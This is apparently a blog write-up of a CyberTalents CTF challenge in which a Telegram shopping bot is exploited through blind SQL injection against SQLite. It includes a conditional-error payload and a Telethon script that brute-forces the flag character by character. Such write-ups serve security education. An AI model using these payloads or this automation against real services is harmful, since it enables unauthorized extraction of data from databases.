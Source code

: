 ```yaml
---
title: Grocery Bot Web CTF WriteUp @CyberTalents
author: MBZ0x7
date: 2021-09-06 15:10:00 +0000
categories: [CTF]
tags: [ctf,cybertalents]
pin: false
---
```

### Description
This challenge is hard and requires programming skills to solve it quickly.
```
Its Shopping day

Telegram alias: @ctgrocerybot
```
![](../../assets/img/posts/1/1.png)

### Enumeration
After trying different things. I concluded that it's vulnerable to blind SQLi.
Also, it's using Sqlite.
You can learn more about this type of sqli vulnerability from [here.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
)

### Manual Exploitation
The payload that we'll be using is below.
```sql
/price flag' AND (SELECT CASE WHEN (SUBSTR(flag,1,1)='a') THEN 1/0 ELSE 'a' END FROM flags)='a"
```
Basically, we'll test lower case alphabets, numbers and underscore for each character flag !

Indeed, you should test uppercase and other non alphanumeric chars, but in our case I know flag possible chars.

In total, over than 3k lines to send to the bot, but you can reduce them by guessing some words in the flag and knowing how it starts,...

### Automatic Exploitation
The problem here that we can't use sqlmap because Telegram uses Websockets for communication.

So, the solution is to write a client to talk to Telegram API and send all payloads to the bot.

First, go to [my.telegram.org/auth](https://my.telegram.org/auth). Add and confirm your phone then go to API development tools and fill in the form with any data.
After that, you'll receive an API_ID and API_HASH that you'll use in the script below.

```python
from telethon.sync import TelegramClient
from string import ascii_lowercase, ascii_uppercase, digits
import time

bot = "@ctgrocerybot"

api_id = 
api_hash = ""

flag_chars = ascii_lowercase + digits + "_"

sleep = 0.5
success = "the item you requested is not found"


flag = "FLAG{"

with TelegramClient('session',api_id,api_hash) as client:
    for pos in range(6, 43):
        for char in flag_chars:
            payload = "/price flag' AND (SELECT CASE WHEN (SUBSTR(flag," + str(
                pos) + ",1)='" + char + "') THEN 1/0 ELSE 'a' END FROM flags)='a"
            print("--> Sending payload: " + payload)
            msg = client.send_message(bot, payload)
            payload_response = client.get_messages(bot)
            print(payload_response[0].message)
            if payload_response[0].message == success:
                flag += char
                print("\033[91m--> Flag: " + flag + "\033[00m")
                break
            print("--> Sleeping for 0.5 seconds")
            time.sleep(sleep)
    client.run_until_disconnected()
flag += "}"
print("\033[91m--> Flag: " + flag + "\033[00m")
```

Make sure to replace `bot`,`api_id` and `api_hash` variables with the corresponding values